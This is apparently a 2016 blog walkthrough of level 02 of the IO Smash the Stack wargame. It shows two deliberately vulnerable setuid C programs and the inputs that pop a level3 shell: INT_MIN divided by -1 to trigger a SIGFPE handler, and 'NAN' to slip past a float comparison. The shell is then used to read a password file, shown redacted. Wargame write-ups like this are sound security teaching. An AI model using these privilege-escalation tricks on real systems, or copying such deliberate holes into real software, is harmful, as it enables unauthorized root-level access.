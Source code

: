 +++
title = "IO Smash the stack level 02"
date = "2016-01-26T09:06:00-02:00"
publishdate = "2016-01-26"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-02"
project_url = "https://greyhat.dk/io-smashthestack-level-02"
type = "post"
description = "Walk-through"
image = "binary.png"
image_alt = "Binary pattern"
+++

## Level02

```sh
level2@io:~$ cd /levels/
level2@io:/levels$ ls -latr level02*
-r-------- 1 level2 level2  437 May 26  2011 level02_alt.c
-r-sr-x--- 1 level3 level2 6940 May 26  2011 level02_alt
-r-sr-x--- 1 level3 level2 5329 Oct  4  2011 level02
-r-------- 1 level2 level2  495 Apr 13  2015 level02.c
```

This time we got source code so lets look at it

level2@io:/levels$ cat level02.c
```c
//a little fun brought to you by bla

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void catcher(int a)
{
        setresuid(geteuid(),geteuid(),geteuid());
	printf("WIN!\n");
        system("/bin/sh");
        exit(0);
}

int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");

        if (argc != 3 || !atoi(argv[2]))
                return 1;
        signal(SIGFPE, catcher);
        return abs(atoi(argv[1])) / atoi(argv[2]);
}
```

So in order to get the cacher function to run we need to get provide 2 arguments (argv[0] is the program itself) and the last argument must not be 0. Since the cacher will only run on signal SIGFPE then lets have a look at the man page for signal(2)

> According to POSIX, the behavior of a process is undefined after it ignores a SIGFPE, SIGILL, or SIGSEGV signal that was not generated by kill(2) or raise(3).  Integer division by  zero  has  
> undfined result.  On some architectures it will generate a SIGFPE signal.  (Also dividing the most negative integer by -1 may generate SIGFPE.)  Ignoring this signal might lead to an endless loop.

So the most negative integer would eihter be -2^15 (2 bytes) or -2^31 (4 bytes) and since this is a 32bit system lets try with 4 bytes

```sh
level2@io:/levels$ ./level02 $(echo "-2^31"|bc) -1
source code is available in level02.c

WIN!
sh-4.2$ whoami
level3
sh-4.2$ cat /home/level3/.pass
XXXXXXXXXXXXXXXX
```

## Level02 alt

level2@io:/levels$ cat level02_alt.c
```c
/* submitted by noname */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


#define answer 3.141593

void main(int argc, char **argv) {

	float a = (argc - 2)?: strtod(argv[1], 0);

        printf("You provided the number %f which is too ", a);


        if(a < answer)
                 puts("low");
        else if(a > answer)
                puts("high");
        else
                execl("/bin/sh", "sh", "-p", NULL);
}
```

The alternative level took me a while to find. There is no equel sign so I started reading up on strtod(3) and found

> A NAN is "NAN" (disregarding case) optionally followed by '(', a sequence of characters, followed by ')'.  The character string specifies in an implementation-dependent way the type of NAN.

```sh
level2@io:/levels$ ./level02_alt NAN
sh-4.2$ whoami
level3
```
